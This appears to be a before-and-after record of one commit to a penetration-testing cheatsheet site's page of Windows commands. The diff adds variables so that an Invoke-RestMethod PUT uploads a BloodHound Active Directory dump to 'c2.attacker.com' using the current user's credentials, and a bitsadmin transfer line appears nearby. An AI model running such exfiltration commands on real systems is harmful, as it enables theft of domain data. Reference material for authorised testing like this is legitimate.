

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Useful_Commands/Windows.md, in a window 1280 px wide and 900 px high, scrolled down 3047 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update Windows.md

````diff
--- a/docs/Useful_Commands/Windows.md
+++ b/docs/Useful_Commands/Windows.md
@@ -124,6 +124,8 @@ bitsadmin /create JOB & bitsadmin /addfile JOB %TEMP%\test1.txt %TEMP%\test2.txt
 * Uploading files
     * Setup a [Simple HTTP Server](../Infrastructure_Setup/Simple_Python_Go_Packages.html#projectdiscovery-simplehttpserver) for this command.
     ```
+    $uri = "https://c2.attacker.com/bh.zip"
+    $uploadPath = "C:\Windows\temp\20210101000109_BloodHound.zip"
     Invoke-RestMethod -Uri $uri -Method Put -InFile $uploadPath -UseDefaultCredentials
     ```
 
````
